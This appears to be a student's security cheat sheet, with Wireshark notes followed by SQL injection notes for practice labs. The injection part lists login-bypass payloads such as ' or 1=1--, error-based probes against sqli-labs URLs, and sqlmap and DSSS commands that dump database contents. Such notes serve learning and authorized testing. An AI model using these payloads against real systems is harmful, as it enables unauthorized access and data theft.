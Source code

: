 ### ARP

- Request (1)
- Reply (2)

### ICMP

- request packet - type equals 8
- reply packet - type equals 0

### HTPP

- File > Export Objects > HTTP

### Statistics

- Summary about the capture file like: packet counts, captured time period, ...
- Protocol Hierarchy of the captured packets.
- Conversations e.g. traffic between specific Ethernet/IP/... addresses.
- Endpoints e.g. traffic to and from an Ethernet/IP/... address.

---

## SQL Injection

<https://owasp.org/www-community/attacks/SQL_Injection>

---

### sqlmap

- payloads
  - <https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads>

- Input Box
  - `' or 1=1--`
  - `1 or 1=1-- -`
  - `1' or '1'='1'-- -`
  - `http://MACHINE_IP:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=a`

- SQLi manual
  - `10.10.191.90/sqli-labs/Less-1/index.php?id=1`
  - `10.10.191.90/sqli-labs/Less-1/index.php?id='`

- SQLI error based
- `10.10.191.90/sqli-labs/Less-1/index.php?id=1' AND 1=1 --+`

- DSSS - Damn Small SQLi Scanner - <https://github.com/stamparm/DSSS>
  - `git clone https://github.com/stamparm/DSSS.git`
  - `python3 ./dsss.py -u "10.10.191.90/sqli-labs/Less-1/index.php?id="`

- form
  - `sqlmap -u http://10.10.250.254 --forms`
  - `sqlmap -u http://10.10.250.254 --forms --dump`
